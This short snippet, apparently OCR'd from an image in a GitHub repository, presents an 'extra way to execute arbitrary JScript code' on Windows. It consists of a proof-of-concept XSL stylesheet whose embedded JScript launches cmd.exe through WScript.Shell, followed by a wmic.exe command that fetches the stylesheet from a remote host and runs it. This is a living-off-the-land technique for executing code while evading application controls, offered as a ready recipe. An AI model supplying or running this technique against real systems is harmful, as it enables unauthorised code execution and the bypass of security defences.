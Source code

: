 **EXTRA WAYS TO EXECUTE ARBIRTRARY JSCRIPT CODE:**

Via XLS transform. Proof of concept to execute an additional cmd.exe:

Content of test.xsl:

```
<?xml version='1.0'?>
<stylesheet version="1.0"
xmlns="http://www.w3.org/1999/XSL/Transform"
xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">

<output method="text"/>
  <ms:script implements-prefix="user" language="JScript">
    <![CDATA[
      var r = new ActiveXObject("WScript.Shell");
      r.Run("cmd.exe");
    ] ]>
  </ms:script>
</stylesheet>
```

Then execute it with wmic.exe as follows:

```
C:\> wmic process get brief /format:"http://192.168.1.1/test.xsl"
```
